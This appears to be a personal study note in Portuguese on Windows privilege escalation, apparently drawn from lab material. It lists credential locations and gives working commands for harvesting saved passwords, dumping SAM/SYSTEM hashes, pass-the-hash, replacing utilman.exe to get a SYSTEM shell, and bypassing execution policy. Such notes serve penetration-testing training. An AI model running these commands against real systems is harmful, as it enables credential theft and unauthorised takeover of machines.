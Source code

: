 #techniques #techniques/privesc #techniques/privesc/windows #windows 

## Colhendo senhas

### Unattended Installations

Para instalar o Windows em um grande número de hosts os admins podem usar o **Windows Deployment Services**, assim, uma única imagem do sistema é distribuída na rede e não precisam de interação com usuário. Esse tipo de instalação exige uso de uma conta admin que pode acabar sendo armazenada nos locais:

- C:\\Unattend.xml
- C:\\Windows\\Panther\\Unattend.xml
- C:\\Windows\\Panther\\Unattend\\Unattend.xml
- C:\\Windows\\system32\\sysprep.inf
- C:\\Windows\\system32\\sysprep\\sysprep.xml

Em um desses arquivos podem conter credenciais como:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell history

Se o usuário digitar um comando no Powershell que inclui a senha, é possível buscar pelo histórico através do cmd.exe com o comando:

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Credenciais salvas

No Windows é possível usar credenciais de outros usuários em determinadas situações. Tem uma função que da a opção de gravar as credenciais no sistema.

```powershell
runas /savecred /user:admin cmd.exe
cmdkey /list #para ver as cred salvas
```

### Configuração IIS

O **Internet Information Services** é um servidor web padrão nas instalações Windows. Esse serviço possui um arquivo de configuração `web.config` que pode ser encontrado em:

- C:\\inetpub\\wwwroot\\web.config
- C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config

```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### PuTTY creds

O **PuTTY** é um cliente SSH comum do Windows que armazena sessões (parâmetros, usuário, IP) para uso posterior assim não precisa especificar tudo de novo. Embora ele não armazene as senhas SSH, ele armazenará configurações de proxy que incluem as credenciais.

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

! **SimonTatham** é criador do TTY e o nome dele realmente faz parte do path, não é nome do usuário.

## Tarefas agendadas

As procurar por tarefas agendadas, é possível encontrar tarefas que tenha perdido seu executável ou que o executável seja modificável.

```powershell
schtasks /query /tn [nome da task] /fo list /v
schtasks /run /tn [nome da task] #rodar um task que tem permissão para rodar manualmente
```

Para verificar as permissões do executável "Task to Run"

```powershell
icacls c:\tasks\schtask.bat
```

## Service Misconfigurations

O [[Core Windows Process#services.exe|SCM]] é o processo responsável por gerenciar os serviços do Windows. Cada serviço é vinculado a um executável, que para comunicar com SCM, deve implementar funções especiais, ou seja, nem todo executável pode ser iniciado como serviço.

Dois parâmetros interessantes ao analisar um serviço `sc qc [nome do serviço]`
é o `BINARY_PATH_NAME` e `SERVICE_START_NAME`.

### Permissão insegura

Ao ver as permissões do executável de um serviço com `icacls` e o usuário atual conseguir modificar ou substituir já é possível fazer com que ganhe de privilégio da conta do serviço.

Outra forma é verificar se o usuário consegue configurar o serviço

```powershell
accesschk64.exe -qlc [nome do service] #accesschk é do sysinternals
```

### Unquoted path

Ao enviar um comando em que o nome do serviço tenha espaço, por exemplo `sc qc "my service"`, o SCM vai buscar primeiro se existe um  `my.exe` e se não achar vai buscar por `my service.exe`. Se a pasta onde este serviço é editável pelo usuário em questão, o hacker pode criar um malware com nome `my.exe`.

## Privilégios

```
whoami /priv
```

O [Priv2Admin](https://github.com/gtworek/Priv2Admin) tem uma lista de privilégios úteis para escalar.

### SeBackup / SeRestore

Esses dois privilégios dá ao usuário permissão RW para qualquer pasta do sistema, ignorando o DACL do lugar. Isso porque a ideia é garantir que o usuário faça o backup sem precisar de privilégios de admin.

Com isso, arquivos como SAM e SYSTEM podem ser lidos para fazer o dump do hash

```alvo
reg save hklm\system C:\Users\vncs\system.hive
reg save hklm\sam C:\Users\vncs\sam.hive
```

```hacker
impacket-secrectsdump -sam sam.hive -system system.hive LOCAL
```

Depois de conseguir os hashes o hacker pode tentar quebrar ou usar o método **pass the hash** para autenticar

```shell
impacket-psexec -hashes [hash] [usuario]@[ip alvo]
```

### SeTakeOwnership

Esse privilégio permite tomar um arquivo ou outro objeto do sistema como por exemplo registros. Isso pode ser explorado tomando um executável que está rodando como SYSTEM.

Por exemplo, o `utilman.exe` é uma aplicação que roda como SYSTEM e abre esse janelinha (Ease of Access) no login.

![[Pasted image 20240424114726.png]]

Com a permissão é possível tomar posse desse executável e alterar.

```prompt
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant [usuario]:F
copy cmd.exe utilman.exe
```

Quando for abrir a janelinha, irá abrir o cmd com usuário SYSTEM.

### SeImpersonate / SeAssignPrimaryToken

Esses privilégio permitem que um processo ou thread assuma a identidade de outro usuário e atue em nome dele.

## Ferramentas de automatização

### [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```
winpeas.exe > output.txt
```

### [PrivescCheck](https://github.com/itm4n/PrivescCheck)

Esse precisa de um bypass das restrições de execução.

```powershell
Set-ExecutionPolicy Bypass -Scope process -Force
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```

### [WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

Uma alternativa caso o antivírus detecte o winPEAS é o **WES-NG** que roda na máquina do atacante.

Ao instalar esse script em Python, é preciso atualizar `wes.py --update`.